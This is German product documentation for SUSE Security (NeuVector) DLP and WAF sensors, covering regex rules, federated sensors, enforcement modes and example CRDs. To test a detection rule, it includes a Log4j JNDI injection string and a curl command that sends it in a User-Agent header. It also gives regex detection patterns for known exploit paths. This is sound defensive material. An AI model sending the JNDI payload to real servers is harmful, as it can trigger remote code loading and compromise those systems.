



DLP- und WAF-Sensoren
Data Loss Prevention (DLP) und Web Application Firewall (WAF)
DLP und WAF nutzen die Deep Packet Inspection (DPI) von SUSE® Security, um die Netzwerkpayloads von Verbindungen auf Verstöße gegen sensible Daten zu überprüfen. SUSE® Security verwendet eine auf regulären Ausdrücken (Regex) basierende Engine, um Paketfilterfunktionen durchzuführen. Es ist äußerste Vorsicht geboten, wenn Sensoren auf Container-Datenverkehr angewendet werden, da die Filterfunktion zusätzlichen Systemaufwand verursacht und die Leistung des Hosts beeinträchtigen kann.
Die Filterung durch DLP und WAF wird je nach den Gruppen, auf die sie angewendet werden, unterschiedlich durchgeführt. Im Allgemeinen wird die WAF-Filterung auf eingehende und ausgehende Verbindungen angewendet, mit Ausnahme des internen Verkehrs, bei dem nur die eingehende Filterung angewendet wird. Die DLP-Filterung gilt für eingehende und ausgehende Verbindungen aus einer 'Sicherheitsdomäne', jedoch nicht für interne Verbindungen innerhalb einer Sicherheitsdomäne. Siehe die detaillierten Beschreibungen unten.
Die Konfiguration von DLP oder WAF ist ein zweistufiger Prozess:
-
Definieren und Testen der Sensor(en), die die Menge an regulären Ausdrücken sind, die verwendet werden, um den Header, die URL oder das gesamte Paket abzugleichen.
-
Wenden Sie den gewünschten Sensor auf eine Gruppe im Bildschirm 'Richtlinie → Gruppen' an.
WAF-Sensoren
WAF-Sensoren repräsentieren die Inspektion des Netzwerkverkehrs zu/von einem Pod/Container. Diese Sensoren können auf jede anwendbare Gruppe angewendet werden, sogar auf benutzerdefinierte Gruppen (z. B. Namespace-Gruppen). Der eingehende Verkehr zu ALLEN Containern innerhalb der Gruppe wird auf die Erkennung von WAF-Regeln überprüft. Darüber hinaus werden alle ausgehenden (Egress-)Verbindungen außerhalb des Clusters überprüft.
Das bedeutet, dass, obwohl diese Funktion WAF genannt wird, sie nützlich und anwendbar für jeden Netzwerkverkehr ist, nicht nur für den Verkehr von Webanwendungen, und daher einen breiteren Schutz bietet als einfache WAFs. Zum Beispiel kann die API-Sicherheit bei ausgehenden Verbindungen zu einem externen API-Dienst durchgesetzt werden, wobei nur GET-Anfragen erlaubt und POST-Anfragen blockiert werden.
Beachten Sie auch, dass die Inspektion, ähnlich wie bei DLP, für den eingehenden Datenverkehr zu JEDEM Pod/Container innerhalb der Gruppe erfolgt, während DLP die Inspektion nur auf den ein- und ausgehenden Datenverkehr der Gruppe anwendet (d.h. die Sicherheitsgrenze), nicht auf den internen Datenverkehr innerhalb der Gruppe (z.B. nicht Ost-West innerhalb der Container einer Gruppe).

DLP-Sensoren
DLP-Sensoren sind die Muster, die zur Inspektion des Datenverkehrs verwendet werden. Integrierte Sensoren wie Kreditkarten und die US-Sozialversicherungsnummer haben vordefinierte reguläre Ausdrücke. Sie können benutzerdefinierte Sensoren hinzufügen, indem Sie Regex-Muster definieren, die in diesem Sensor verwendet werden sollen. Beachten Sie, dass DLP, ähnlich wie WAF, die Inspektion nur auf den ein- und ausgehenden Datenverkehr der Gruppe anwendet (d.h. die Sicherheitsgrenze), nicht auf den internen Datenverkehr innerhalb der Gruppe (z.B. nicht Ost-West innerhalb der Container einer Gruppe). Die WAF-Inspektion gilt nur für den eingehenden Datenverkehr zu JEDEM Pod/Container innerhalb der Gruppe.

Konfiguration von DLP- und WAF-Sensoren
Die Konfiguration von DLP- und WAF-Sensoren ist ähnlich. Erstellen Sie einen Sensornamen und einen Kommentar, wählen Sie dann den Sensor aus, um die Regeln für diesen Sensor hinzuzufügen oder zu bearbeiten. Wichtige Felder sind:
-
Haben/Nicht haben. Bestimmt, ob die Übereinstimmung erfordert, dass das Muster gefunden wird (Haben), um die Aktion (z. B. Verweigern) auszuführen, oder ob die Aktion nur ausgeführt werden soll, wenn das Muster nicht vorhanden ist (Nicht haben). Es wird empfohlen, den "Nicht haben"-Operator in der Regel mit einem Muster zu kombinieren, das den "Haben"-Operator verwendet, da ein einzelnes Muster mit dem "Nicht haben"-Operator nicht effektiv sein wird.
-
Muster. Dies ist der reguläre Ausdruck, der verwendet wird, um eine Übereinstimmung zu bestimmen. Sie können Ihr Regex an Beispieldaten testen, um korrekte Haben/Nicht haben-Ergebnisse sicherzustellen.
-
Context. Wo man nach dem Muster suchen sollte. Wählen Sie das Paket für die umfassendste Inspektion der gesamten Netzwerkverbindung oder schränken Sie die Inspektion nur auf die URL, den Header oder den Body ein.

Jede DLP/WAF-Regel unterstützt mehrere Muster (maximal 16 Muster sind pro Regel erlaubt). Mehrere Muster sowie die Festlegung des Regelkontexts können ebenfalls helfen, falsch-positive Ergebnisse zu reduzieren.
Beispiel einer DLP-Regel mit einem Haben/Nicht Haben-Muster: Haben:
\b3[47]\d{2}([ -]?)(?!(\d)\2{5}|123456|234567|345678)\d{6}\1(?!(\d)\3{4}|12345|56789)\d{5}\bDies führt zu einem falsch-positiven Treffer für "istio_agent_go_gc_duration_seconds_sum 22.378386247999998":
docker exec -ti httpclient sh
/ # curl -d "{\"context\": \"istio_agent_go_gc_duration_seconds_sum 22.378386247999998\"}" 172.17.0.5:8080/
Hello, world!Das Hinzufügen eines Nicht-Haben-Musters entfernt das falsch-positive Ergebnis:
istio\_(\w){5}Sensoren müssen auf eine Gruppe angewendet werden, um wirksam zu werden.
Konfiguration von föderierten DLP- und WAF-Sensoren
Dies ist der allgemeine Prozess zur Konfiguration eines föderierten DLP- oder WAF-Sensors:
-
Definieren und testen Sie die föderierten DLP/WAF-Sensor(en), die die Menge an regulären Ausdrücken beinhalten, die verwendet werden, um den Header, die URL oder das gesamte Paket im Primärcluster → Föderierte Richtlinie → DLP-Sensoren oder WAF-Sensoren Tab abzugleichen.
-
Wenden Sie den gewünschten Sensor auf eine benutzerdefinierte föderierte Gruppe im Föderierte Richtlinie → Gruppen Tab an.
-
Überprüfen Sie, ob die föderierten DLP/WAF-Sensor(en) mit dem verwalteten Cluster synchronisiert sind und wie erwartet funktionieren.
Beispiel
Definieren Sie die föderierten DLP/WAF-Sensoren in einem Primärcluster, wenden Sie sie auf eine benutzerdefinierte föderierte Gruppe an, und überprüfen Sie dann, ob diese Sensoren auf alle verwalteten Cluster angewendet werden.
Schritte:
-
Definieren Sie die föderierten DLP/WAF-Sensor(en) im Primärcluster im relevanten DLP-Sensoren oder WAF-Sensoren Tab:


-
Wenden Sie die föderierten DLP/WAF-Sensor(en) auf eine benutzerdefinierte föderierte Gruppe im Tab Federated Richtlinie → Gruppen an:

-
Überprüfen Sie, ob die föderierten DLP/WAF-Sensor(en) mit den verwalteten Clustern synchronisiert sind:


-
In den verwalteten Clustern senden Container Datenverkehr, der dem Muster der föderierten DLP/WAF-Sensor(en) entspricht:

-
Nach Schritt 4 werden DLP/WAF "Sicherheitsereignisse"-Benachrichtigungen generiert:

Anwendung von DLP/WAF-Sensoren auf Containergruppen
Um einen DLP- oder WAF-Sensor zu aktivieren, gehen Sie zu Richtlinie → Gruppen, um die gewünschte Gruppe auszuwählen. Aktivieren Sie DLP/WAF für die Gruppe und fügen Sie die Sensor(en) hinzu.
Es wird empfohlen, DLP-Sensoren an der Grenze einer Sicherheitszone anzuwenden, die durch eine Gruppe definiert ist, um die Auswirkungen der DLP-Überprüfung zu minimieren. Falls erforderlich, definieren Sie eine benutzerdefinierte Gruppe, die eine solche Sicherheitszone darstellt. Wenn beispielsweise die ausgewählte Gruppe die reservierte Gruppe 'Container' ist und DLP-Sensoren zur Gruppe hinzugefügt werden, wird nur der Datenverkehr in oder aus dem Cluster und nicht zwischen allen Containern überprüft. Oder wenn es sich um eine benutzerdefinierte Gruppe handelt, die als 'namespace=demo' definiert ist, wird nur der Datenverkehr in oder aus dem Namespace demo überprüft und nicht der Datenverkehr zwischen den Containern innerhalb des Namespaces.
Es wird empfohlen, WAF-Sensoren nur auf Gruppen anzuwenden, bei denen eingehende (z. B. Ingress) Verbindungen erwartet werden, es sei denn, die Sensor(en) gelten für spezifische interne Anwendungen (die mit Ost-West-Verkehr rechnen).

DLP/WAF Verhaltensübersicht
-
DLP-Musterabgleich erfolgt nicht für den Datenverkehr, der zwischen Arbeitslasten, die zur gleichen DLP-Gruppe gehören, verläuft.
-
Jeder Datenverkehr, der in eine DLP-Gruppe hinein und aus ihr heraus verläuft, wird auf Musterübereinstimmungen gescannt.
-
Der eingehende und ausgehende Datenverkehr des Clusters wird auf Muster gescannt, wenn die Arbeitslast berechtigt ist, eingehende/ausgehende Verbindungen herzustellen.
-
Mehrere Muster pro DLP/WAF-Regel (maximal 16 Muster sind pro Regel erlaubt).
-
Für ein einzelnes Paket werden mehrere Warnungen generiert, wenn es mehreren Regeln entspricht.
-
Aus Leistungsgründen werden nur die ersten 16 Regeln gewarnt und abgeglichen, auch wenn das Paket mehr als 16 Regeln entspricht.
-
Warnungen werden aggregiert und gemeinsam gemeldet, wenn dieselbe Regel innerhalb von 2 Sekunden mehrfach auslöst.
-
PCRE wird für den Schemavergleich verwendet.
-
Die Hyper-Scan-Bibliothek wird für einen effizienten, skalierbaren und leistungsstarken Schemavergleich verwendet.
DLP/WAF-Aktionen in den Modi Entdeckungsmodus, Überwachungsmodus und Schutzmodus.
Beim Hinzufügen von Sensoren zu Gruppen kann die DLP/WAF-Aktion auf 'Warnen' oder 'Verweigern' eingestellt werden; bei Übereinstimmung tritt folgendes Verhalten ein:
-
Entdeckungsmodus. Die Aktion wird immer als Warnung ausgeführt, unabhängig von der Einstellung 'Warnen'/'Verweigern'.
-
Überwachungsmodus. Die Aktion wird immer als Warnung ausgeführt, unabhängig von der Einstellung 'Warnen'/'Verweigern'.
-
Schutzmodus. Die Aktion wird als Warnung ausgeführt, wenn 'Warnen' eingestellt ist, oder blockiert, wenn 'Verweigern' gewählt wurde.
Log4j-Erkennung WAF-Schema
Die WAF-ähnliche Regel zur Erkennung des versuchten Log4j-Exploits ist unten aufgeführt. Bitte beachten Sie, dass dies nur auf Gruppen angewendet werden sollte, die eingehende Webverbindungen erwarten.
\$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*Bitte beachten Sie auch, dass es Möglichkeiten gibt, wie Angreifer die Erkennung durch solche Regeln umgehen könnten.
Testen der Log4j WAF-Erkennung
Bei einem versuchten Exploit wird der Angreifer eine anfängliche jndi:-Einfügung konstruieren und sie im User-Agent-HTTP-Header einfügen:
User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}Die Verwendung von curl zum POSTen von Daten an den Server (Container) kann helfen, die WAF-Regel zu testen:
curl -X POST -k -H "X-Auth-Token: $_TOKEN_" -H "Content-Type: application/json" -H "User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" -d '$SOME_DATA' "http://$SOME_IP_:$PORT"WAF-Setup und -Test
Die herunterladbare Datei unten enthält ein nicht unterstütztes Skript zur Erstellung von WAF-Sensoren über CRD und zum Ausführen gängiger WAF-Regeltests gegen diese Sensoren. Die README enthält Anweisungen zur Ausführung.


Verwalten von WAF-Regeln mit Import/Export oder CRDs
Es ist möglich, WAF-Regeln vom WAF-Bildschirm zu importieren oder zu exportieren. Dies kann nützlich sein, um Regeln auf andere Cluster zu übertragen, eine Sicherung zu erstellen oder sie für die Anwendung als CRD vorzubereiten.
Um WAF-Sensoren zu erstellen oder einen WAF-Sensor einer Gruppe mithilfe von CRDs zuzuweisen, stellen Sie sicher, dass die entsprechende NVWafSecurityRule-Clusterrollenbindung erstellt wird.
Beispiel WAF-Sensor CRD
Klicken Sie hier für Details
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
kind: NvWafSecurityRule
metadata:
name: sensor.execution
spec:
sensor:
comment: arbitrary command execution attempt
name: sensor.execution
rules:
- name: Alchemy
patterns:
- context: url
key: pattern
op: regex
value: \/NUL\/.*\.\.\/\.\.\/
- name: Log4j
patterns:
- context: header
key: pattern
op: regex
value: \$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
- name: formmail
patterns:
- context: url
key: pattern
op: regex
value: \/formmail
- context: packet
key: pattern
op: regex
value: \x0a
- name: CCBill
patterns:
- context: url
key: pattern
op: regex
value: \/whereami\.cgi?.*g=
- name: DotNetNuke
patterns:
- context: url
key: pattern
op: regex
value: \/Install\/InstallWizard.aspx.*executeinstall
- name: HNAP
patterns:
- context: url
key: pattern
op: regex
value: \/tmUnblock.cgi
- context: header
key: pattern
op: regex
value: 'Authorization: Basic\s*YWRtaW46'
- name: Magento
patterns:
- context: url
key: pattern
op: regex
value: \/Adminhtml_.*forwarded=
- name: b2
patterns:
- context: url
key: pattern
op: regex
value: \/b2\/b2-include\/.*b2inc.*http\x3a\/\/
- name: bat
patterns:
- context: url
key: pattern
op: regex
value: x2ebat\x22.*?\x26
- name: eshop.pl
patterns:
- context: url
key: pattern
op: regex
value: \/eshop\.pl?.*seite=\x3b
- name: whois_raw.cgi
patterns:
- context: url
key: pattern
op: regex
value: \/whois_raw\.cgi?
- context: packet
key: pattern
op: regex
value: \x0a
kind: List
metadata: nullBeispiel CRD zur Zuweisung eines WAF-Sensors zu einer Gruppe
Klicken Sie hier für Details
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
kind: NvSecurityRule
metadata:
name: demo-group
namespace: demo
spec:
egress: []
file: []
ingress: []
process: []
process_profile:
baseline: default
target:
policymode: N/A
selector:
comment: ""
criteria:
- key: domain
op: =
value: demo
- key: service
op: =
value: nginx-pod.demo
- key: service
op: =
value: node-pod.demo
name: demo-group
original_name: ""
waf:
settings:
- action: deny
name: sensor.cross
- action: deny
name: sensor.execution
- action: deny
name: sensor.injection
- action: deny
name: sensor.traversal
- action: deny
name: wafsensor-1
status: true
kind: List
metadata: nullSiehe den CRD-Bereich für weitere Details zur Arbeit mit CRDs.